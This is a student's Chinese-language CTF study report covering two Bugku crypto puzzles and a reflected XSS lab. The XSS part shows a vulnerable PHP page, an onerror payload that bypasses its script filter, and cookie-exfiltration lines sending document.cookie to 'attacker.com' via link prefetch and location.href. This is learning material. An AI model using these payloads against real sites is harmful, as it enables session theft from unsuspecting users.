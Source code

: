 # 陈励文学习报告04

### Bugku你以为是md5吗

试着用md5解密后发现密文错误，于是去搜了一下md5的加密方式

32位16进制字符串，于是修改了一下密文，得出flag

![XaP1k.png](https://s1.328888.xyz/2022/04/09/XaP1k.png)

![XkUdQ.png](https://s1.328888.xyz/2022/04/09/XkUdQ.png)

### Bugkumath&english

![XkuE4.png](https://s1.328888.xyz/2022/04/09/XkuE4.png)

计算完后，根据题目提示搜了一下发现是元音码表，转换后得到flag

![XkfbX.png](https://s1.328888.xyz/2022/04/09/XkfbX.png)

### 反射的XSS源

源码

~~~ php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
~~~

正则表达式：将输入的**script**全部过滤掉，于是所有包含**script**的代码都不可执行。

使用CSP的方法进行绕过

~~~
script-src：外部脚本
style-src：样式表
img-src：图像
media-src：媒体文件（音频和视频）
font-src：字体文件
object-src：插件（比如 Flash）
child-src：框架
frame-ancestors：嵌入的外部资源（比如<frame>、<iframe>、<embed>和<applet>）
connect-src：HTTP 连接（通过 XHR、WebSockets、EventSource等）
worker-src：worker脚本
manifest-src：manifest 文件
~~~

构造payload

~~~
<img src=" " onerror="alert('XSS')"> 
~~~



**htmlspecialchars()**函数

把预定义的字符 "<" （小于）和 ">" （大于）转换为 HTML 实体



![Xnpg7.png](https://s1.328888.xyz/2022/04/09/Xnpg7.png)



### 一些绕过方法

~~~
<link rel="prefetch" href="http://baidu.com"> H5预加载，仅Google Chrome支持
~~~

~~~
<link rel="dns-prefetch" href="http://baidu.com"> DNS预加载
~~~

当传出数据受限时，可以利用JavaScript动态生成link标签，将数据传输到我们的服务器，如通过GET参数带出cookie：

~~~
<link rel="prefetch" href="http://attacker.com/?cookie=xxxx">
~~~

利用页面跳转，包括a标签的跳转、location变量赋值的跳转，meta标签的跳转等手法。比如，通过跳转实现带出数据：

~~~
location.href="http://attacker.com/?c="+escape(document.cookie)
~~~

